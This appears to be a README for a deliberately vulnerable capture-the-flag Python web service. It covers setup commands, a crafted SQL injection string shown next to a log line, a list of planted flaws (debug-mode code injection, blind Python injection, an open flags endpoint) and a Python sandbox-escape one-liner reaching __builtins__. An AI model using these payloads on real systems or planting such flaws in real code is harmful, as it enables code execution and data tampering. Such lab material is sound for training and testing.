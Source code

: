 How Use
-------

    virtualenv venv

    .\venv\Script\activate # for windows!
    .\venv\bin\activate # for other!

    pip install -r requirements.txt

    python f_mash.py

Hack it
-------

    127.0.0.1 - - [03/Apr/2014 18:54:46] "GET / HTTP/1.1" 200 -
    insert into messages values ('qwe\', 2, ',) + (str(2),"hhh") #')
    -- SQL insert into messages values ('qwe\', 2, ',) + (str(2),"hhh") #') --
    insert!

Hacks
-----
 - DEBUG = True - python code injection!
 - /ack/ - open for all last flags.
 - /post/ - blind python injection!
 - /post/ - db store format error, can add 2 rows.

interesting
-----------


   [c for c in ().__class__.__base__.__subclasses__() if c.__name__ == 'catch_warnings'][0]()._module.__builtins__
